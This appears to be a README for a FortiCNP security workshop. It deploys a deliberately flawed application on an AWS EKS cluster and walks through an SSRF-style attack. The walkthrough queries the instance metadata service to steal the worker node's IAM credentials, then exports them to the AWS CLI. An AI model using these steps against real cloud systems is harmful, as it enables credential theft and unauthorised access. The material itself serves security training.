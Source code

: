 <h1>Workshop FortiCNP - EKS Use Case </h1>

<h3>About</h3>
<p>
The main purpose of this project is to create an EKS cluster with a flaw application to explore some vulnerabilities and see how FortiCNP can support you during your cloud security operation. 
</p>
<p><strong> FortiCNP </strong> is a new Fortinet Cloud Native Protection product that is designed to help you address today’s cloud security needs by integrating with Cloud Native Security services as well as Fortinet Security Fabric products.</p>

<h3>Resources</h3>
<p>The following  resources will be deployed into your AWS account:</p>


<strong>VPC</strong>
* 1 x VPC
* 4 x Subnets. 2 Publics and 2 Privates
* 2 x Route Tables
* 1 x Nat Gateway
* 1 x IGW

<strong>EKS Cluster</strong>
* 1 EKS Cluster with a single WorkerNode

<strong> IAM </strong>
* IAM User for EKS Cluster management

<strong> Bastion EC2 Instance </strong>
* 1x EC2 Instance for EKS cluster api access/management


<h3>Use Case</h3>

<p>In this use case, we will discuss the risks of the AWS Instance Metadata service in AWS Elastic Kubernetes Service (EKS) clusters. We will demonstrate that deploying a flaw application with misconfiguration of AWS resources such as IAM policies can have disastrous consequences in the AWS account.</p>
<p><a href=https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html> Instance Metadata service </a> is an AWS API listening on a link-local IP address, 169.254.169.254. It is only accessible from EC2 instances and allows to retrieve many information about them.</p>

<h3>Deploy AWS Resources</h3>
<p>Follow the deployment process below to deploy EKS cluster in your AWS Account </p>
<ul>
<li>1. First you need to deploy the Cloudformation template filename Activate_AWSQS_extentation.yaml. This file will activate CloudFormation Extension <strong>AWSQS::EKS::Cluster</strong>. For more information about it you can find <a href="https://github.com/aws-quickstart/quickstart-amazon-eks-cluster-resource-provider"> here</a></li>
<li>2. Deploy the cloudformation template EKS.yaml</li>
It will take around 20 minutes to complete.
</ul>

<h3>Deploy Application</h3>
<p>Follow the  process below to deploy a flaw application on top of EKS</p>
<ul>
<li>1. Connect to an EC2 Bastion host created. If you have Key Pair you can use it to connect through SSH. If not, use Connect button available in the console</li>
<li>2. Open the folder forticnp-k8s/application available in the root path.</li>
<li>3. Deploy the application with the following command.
kubectl create -f deployment_k8s_attack.yaml
</li>
<li>4. Deploy the service to expose the application with the following command.
kubectl create -f service_k8s_attack.yaml
</li>
</ul>

<h3>Accessing the Instance Metadata service from a compromised pod</h3>
<ul>
<li>1. Open the application URL. Get the URL with the command below.
<p> kubectl get svc service-k8s-attack</p>
<img src='/get_service.PNG'>
</li>
<li>2. Launch http://your_url_service:8080.
<img src='/home_page.PNG'>


</li>
<li>3. You can explore Instance Metadata. Copy and paste the command below in the form that will return informations about the EKS WorkerNode.
<p>http://169.254.169.254/latest/meta-data/</p>
</li>
<p>You can explore all Medata information</p>
<li>4. You can grab the access key and secret key with the commands below.
<p> Let's see which IAM role is applied to EC2 WorkerNode with the command below. </p>
<p>http://169.254.169.254/latest/meta-data/iam/security-credentials/</p>
<img src='/iam_role_workernode.PNG'>
<p>IAM role Name: FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB</p>
</li>
<li>5. Now you can retrieve security credentials.
<p>The following link retrieves security credentials for IAM name  FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB. Replace with IAM credential</p>
<p>http://169.254.169.254/latest/meta-data/iam/security-credentials/FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB</p>
</li>

<li>5. You will get the security credentials. As you can see in the image below.
<img src='/security_credentials.PNG'>
</li>

<li>6. You can use it to have aditional access. For instance, list S3 buckets available in your AWS account.
<p>First, you can verify that you are not allowed to list S3 buckets with the current credential</p>
<p>aws s3 ls</p>
<p>Replace your AWS credentials with the Access Key, Secret Key and Token from the previous step </p>
<p> export AWS_ACCESS_KEY_ID="New_Access_Key"</p>
<p> export AWS_SECRET_ACCESS_KEY="New_Secret_Key"</p>
<p> export AWS_SESSION_TOKEN="Token"</p>
</li>
<img src='/new_access_credentials.PNG'>

</ul>
